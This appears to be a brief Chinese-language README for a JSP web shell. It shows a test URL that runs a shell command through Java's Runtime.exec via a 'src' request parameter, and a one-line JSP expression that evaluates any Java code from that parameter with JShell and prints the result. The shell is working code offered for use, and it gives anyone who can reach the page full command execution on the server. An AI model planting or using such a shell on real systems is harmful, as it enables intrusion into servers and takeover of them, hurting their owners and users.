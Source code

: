 readme

![](http://p2j.cn/uploads/image/20190910/20190910185302_297.png)
测试用例：http://localhost:8080/modules/jshell.jsp?src=new%20java.io.BufferedReader(new%20java.io.InputStreamReader(Runtime.getRuntime().exec(%22pwd%22).getInputStream())).readLine()

如果强迫症想撸掉多余的输出：


<%=jdk.jshell.JShell.builder().build().eval(request.getParameter("src")).get(0).value().replaceAll("^\"", "").replaceAll("\"$", "")%>
